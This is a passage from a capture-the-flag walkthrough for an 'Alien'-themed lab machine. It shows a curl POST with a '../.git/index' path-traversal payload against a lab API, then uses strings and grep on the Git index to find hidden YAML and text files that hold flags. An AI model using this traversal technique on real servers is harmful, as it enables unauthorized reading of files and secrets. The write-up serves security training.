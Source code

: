 ```
file-a.yaml
file-b.yaml
```

As you can see, in a black-box engagement, this may prove a feasible way to achieve file enumeration from a simple path-traversal vulnerability. The Git specification makes no claims that entires should be encrypted. So, it is reasonable to assume that the secrets appear in cleartext.

As noted earlier, you can use `/nostromo` to get the contents of any file on the system. But I'm still interested in why the `/yaml` functionality exists, especially since the "Alien Loaders" description calls out its importance. To me, this implies that there is a YAML file in the project structure; and we're going to use the `index` file contents to prove this one way or another.

First, fetch the file:

```
curl -X POST \
	-H "Content-Type: application/json" \
	-H "Accept: application/octet-stream" \
	-d '{"file_path": "../.git/index"}' \
	-o index.bin \
	http://10.10.120.111/api/nostromo
```

Then, inspect the contents for `.yaml` files:

```
strings index.bin | grep '.yaml'
...
public/100375.yaml
...
```

Indeed, this matches the same "control code" given in the CTF description. 

Now, let's try to enumerate `.txt` files:

```
strings index.bin | grep '.txt'
...
mother/0rd3r937.txt
mother/secret.txt
...
public/0rd3rXXX.txt
...
```

Using this enumeration, we have revealed the contents of the following interesting files:

- *public/100375.yaml*, which contains a reference to *0rd3rXXX.txt*, and implies that the order number is XXX (redacted)
- *public/0rd3rXXX.txt*, which contains the "Nostromo route" flag
- *mother/0rd3rXXX.txt*, which reveals the order number
- *mother/secret.txt*, which contains a reference to */opt/m0th3r*, the location of the "Mother's secret" flag

By this point, we have four of the six flags, and have all but exhausted the server-side attack paths given the path-traversal vulnerability. For the final two, let's inspect the client. As noted, the core frontend logic exists in *index.min.js*.
